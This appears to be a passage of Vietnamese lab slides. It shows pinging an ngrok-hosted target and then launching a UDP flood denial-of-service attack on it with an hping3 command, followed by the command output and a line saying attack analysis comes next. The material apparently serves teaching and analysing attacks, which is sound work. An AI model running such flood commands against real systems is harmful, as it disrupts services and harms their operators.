

Chạy lệnh:
Ping 8488-14-224-53-137.ngrok-free.app ta được kết quả:
PING 8488-14-224-53-137.ngrok-free.app (18.141.129.246) 56(84) bytes of data.
64 bytes from ec2-18-141-129-246.ap-southeast-1.compute.amazonaws.com (18.141.129.246): icmp_seq=1 ttl=115 time=68.9 ms
Ok vậy là đã ping được tới url cần tấn công tiếp theo ta thực hiện tấn công
Chạy lệnh:
sudo hping3 --flood --udp -p 80 8488-14-224-53-137.ngrok-free.app
Hoặc dung lệnh:
Host 8488-14-224-53-137.ngrok-free.app để lấy địa chỉ ip và thay vào.
ta được kết quả:
HPING 8488-14-224-53-137.ngrok-free.app (eth1 18.141.129.246): udp mode set, 28 headers + 0 data bytes
hping in flood mode, no replies will be shown
Vậy là đang thực hiện tấn công rồi
Tiếp theo ta thực hiện phân tích tấn công.